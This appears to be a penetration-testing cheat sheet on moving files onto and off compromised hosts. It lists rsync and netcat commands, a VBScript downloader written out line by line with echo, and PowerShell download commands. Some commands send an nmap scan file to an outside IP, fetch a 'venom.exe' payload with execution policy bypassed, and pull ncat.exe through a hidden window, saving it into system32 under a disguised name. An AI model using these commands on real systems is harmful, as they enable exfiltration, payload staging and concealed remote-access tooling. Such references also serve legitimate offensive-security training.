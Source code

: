 ## Transfers with rsync

Transferring a folder:

```bash
rsync -v -azP user@192.168.124.123:/home/user/folder ./
```

Establishing a remote sync:

```bash
rsync -a remote_user@remote_host_or_ip:/opt/media/ /opt/media/
```

## Transfers with netcat

On the receiver's side:

```bash
nc -lvp 8443 > discovery.nmap < /dev/null
```

On the sender's side:

```bash
cat discovery.nmap |ncat 3.66.190.34 42024
```

## Transfers with VBS

Using with a script:

```vbs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

## Transfers with powershell

Downloading a file:

```shell
$storageDir = $pwd
$webclient = New-Object System.Net.WebClient
$url = "http://10.11.0.58/venom.exe"
$file = "venom.exe"
$webclient.DownloadFile($url,$file)
```

```shell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File download.ps1
```

Downloading and executing a file:

```shell
powershell.exe -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('https://virtualsquad.ninja/ncat.exe','C:\WINDOWS\system32\winmanager.exe');
```
